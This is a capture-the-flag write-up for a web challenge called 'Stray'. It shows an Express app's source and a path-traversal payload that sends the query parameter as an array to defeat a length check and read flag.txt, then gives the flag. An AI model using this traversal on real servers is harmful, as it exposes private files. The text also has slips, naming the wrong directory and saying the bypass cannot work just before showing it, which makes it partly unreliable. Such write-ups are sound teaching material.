 # Stray
> Stuck on what to name your stray cat?

## About the Challenge
We got a source code (You can download the file [here](export.zip)) and also the website. Here is the preview of the website

![preview](images/preview.png)

If we press one of the links, it will generate a cat name

![preview-2](images/preview-2.png)

## How to Solve?
Let's analyze `app.js`!

```js
import express from "express";
import path from "path";
import fs from "fs";

const app = express();

app.get("/cat", (req, res) => {
  let { category } = req.query;

  console.log(category);

  if (category.length == 1) {
    const filepath = path.resolve("./names/" + category);
    const lines = fs.readFileSync(filepath, "utf-8").split("\n");
    const name = lines[Math.floor(Math.random() * lines.length)];

    res.status(200);
    res.send({ name });
    return;
  }

  res.status(500);
  res.send({ error: "Unable to generate cat name" });
});

app.get("/", (_, res) => {
  res.status(200);
  res.sendFile(path.resolve("index.html"));
});

app.listen(process.env.PORT || 3000);
```

In `/cat` endpoint, this code is checking if the length of category is 1. If it is, it reads a file from a `m` directory, selects a random name from that file, and sends it as a response to the client with an HTTP status code of 200.

To read the flag, we need to input `../flag.txt` as the value for parameter category. However, we can't do that directly due to the code checking whether the length of our input is 1 or not.

![testing input](images/test.png)

But we can't bypass that by providing an array instead of a string.

From:
```
cat?category=../flag.txt
```

To:
```
cat?category[]=../flag.txt
```

And here is the final payload I used to obtain the flag

![flag](images/flag.png)

```
bctf{j4v45cr1p7_15_4_6r347_l4n6u463}
```